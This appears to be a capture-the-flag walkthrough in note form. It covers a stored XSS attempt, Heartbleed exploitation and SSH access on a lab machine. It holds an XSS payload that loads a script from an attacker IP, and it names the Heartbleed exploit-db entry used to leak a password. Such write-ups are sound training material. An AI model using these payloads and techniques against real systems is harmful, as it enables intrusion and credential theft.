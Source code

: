 we tried to do a stored xss attack with 
"><script src=http://10.10.16.9></script>
![[Pasted image 20211215204959.png]]
and we get a hit!
we couldn't do much with what we found but we ran 
nmap --script vuln and we got something interesting
a  exploit on ssl called heart bleed
![[Pasted image 20211215223036.png]]
running heartbleed we leaked some interesting info 
looks like someone is typing a base64 string into /decode 
https://www.exploit-db.com/exploits/32745 #heartbleed 
![[Pasted image 20211215225404.png]] it looks like a password
heartbleedbelievethehype
now let's try to ssh with the key we found earlier and the password we found now and i assume the username will be hype because the key was called hype.key
![[Pasted image 20211215230803.png]]
we are in !